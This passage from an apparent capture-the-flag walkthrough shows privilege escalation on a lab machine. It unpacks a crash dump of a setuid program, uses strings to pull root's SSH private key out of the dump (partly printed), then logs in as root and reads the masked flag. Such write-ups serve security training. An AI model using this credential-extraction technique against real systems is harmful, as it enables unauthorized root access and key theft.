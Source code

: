 
    dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf
    dasith@secret:/var/crash$ ls /tmp/0xdf/
    Architecture         ExecutableTimestamp  ProcMaps
    CoreDump             ProblemType          ProcStatus
    Date                 ProcCmdline          Signal
    DistroRelease        ProcCwd              Uname
    ExecutablePath       ProcEnviron          UserGroups 



`file` shows `CoreDump` as an ELF binary:



    dasith@secret:/tmp/0xdf$ file CoreDump 
    CoreDump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from './count', real uid: 1000, effective uid: 0, real gid: 1000, effective gid: 1000, execfn: './count', platform: 'x86_64'



That's because it's the memory of the process at the time of the crash.
Running strings on it will return the file:



    dasith@secret:/tmp/0xdf$ strings -n 30 CoreDump                       
    /usr/lib/x86_64-linux-gnu/libc-2.31.so
    ...[snip]...
    Save results a file? [y/N]: l words      = 45                                                            
    -----BEGIN OPENSSH PRIVATE KEY-----           
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn          
    NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
    KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
    ...[snip]...
    fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
    -----END OPENSSH PRIVATE KEY-----
    ...[snip]...



### SSH

With the SSH key, I can SSH into the box as root:



    oxdf@hacky$ ssh -i ~/keys/secret-root root@10.10.11.120
    ...[snip]...
    root@secret:~#



And read `root.txt`:



    root@secret:~# cat root.txt
    fd1c20cd************************








